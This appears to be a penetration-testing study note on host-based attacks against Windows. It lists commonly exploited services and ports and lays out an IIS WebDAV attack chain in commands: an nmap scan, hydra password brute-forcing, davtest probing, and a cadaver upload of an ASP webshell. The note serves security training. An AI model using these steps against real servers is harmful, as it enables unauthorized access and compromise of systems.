 system/host based attacks are those targeted towards a specific host/system running a specific OS e,g linux or windows

System/Host based attacks are attacks that are targeted towards a specific system running a specific operating system.

they come into play mostly during post ompromise after gaining internal network access where you would need to attack client/employee workstatiions that are not running network services typically prone to misconfiguration or vulnerabilities hence there would be a need to attack misocnfigs or vulnerabilites inherent to just the OS.


## WINDOWS
Commonly exploited windows services 

|Protocol|Ports|Purpose
|-- |--|--|
|IIS| TCP 80/443|Proprietory microsoft web server
|WebDav-Web-based Distributed Authoring & versioning| TCP 80/443| HTTP extension that allows clients to update, delete, move and copy files on a web server.  It is used to enable a web server act as a file server.|
|SMB/CIFS| TCP 445| Network file sharing protocol used to facilitate the sharing of files and peripherals between LAN computers
|RDP| TCP 3389| Proprietory GUI remote protocol developed by Microsoft|
|WinRM| TCP 5985/5986/443| Windows Remote Management protocol that can be used to facilitate remote access with windows systems.|

****
#### IIS WEBDAV
IIS allows you host static and dynamic web pages developed in ASP.NET and PHP.
typical file extensions ; .asp,.aspx,.config and .php
- webdav
```bash
- requires authentication
Tools :
1. davtest : used to scan, authenticate and exploit the webdav server, also checks what filetype is executable on server.
2. Cadaver : file upload, download, in-space editing, collection creaation, deletion, property manipulation etc.
```
ATTACK CHAIN
```bash
> -p 80 --script=http-enum $IP

BRUTEFORCE
> hydra -L /wordlist.txt -P /common_passwords.txt $IP http-get /webdav/

INTERACTION
- WITH DAVTEST --> test what file extentions can be uploaded, if a directory can be created, and what file extensions can be executed

> davtest -auth bob:password -url http://$IP/webdav

- WITH CADAVER
Provides an FTP-like pseudo shell to upload files/shellcode
> cadaver http://$IP/webdav/
> put /usr/share/webshells/asp/webshell.asp

```
****
WITH METASPLOIT (MSFVENOM)
- in some cases you can upload and execute other file extensions after generating our own shellcode with mfvenom in asp
